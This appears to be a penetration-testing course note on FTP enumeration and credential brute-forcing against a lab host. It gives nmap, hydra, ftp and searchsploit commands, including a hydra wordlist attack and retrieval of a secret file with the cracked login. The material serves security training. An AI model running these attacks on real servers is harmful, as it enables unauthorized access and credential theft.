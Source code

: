 - FTP (File Transfer Protocol) is a a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client/clients.
- It is also frequently used as a means of transferring files to and from the directory of a web server.
- FTP authentication requires a username and password combination. As a result, we can perform a brute-force attack on the FTP server in order to identify legitimate credentials.
- In some cases, FTP servers may be configured to allow anonymous access, which consequently allows anyone to access the FTP server without providing any legitimate credentials.

Practical Demonstration
- `nmap -sV demo.ine.local`
- `ftp demo.ine.local`
	- `exit`
- `ls -al /usr/share/nmap/scripts/ | grep ftp-*`
- `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local -t 4 ftp`
- Logging in using the credentials found via the brute-force attack.
	- `ftp demo.ine.local`
		- `dir`
		- `get secret.txt`
		- `exit`
	- `ls`
	- `cat secret.txt`
- Listing publicly available exploits for the FTP service running on the target system:
	- `searchsploit ProFTPd`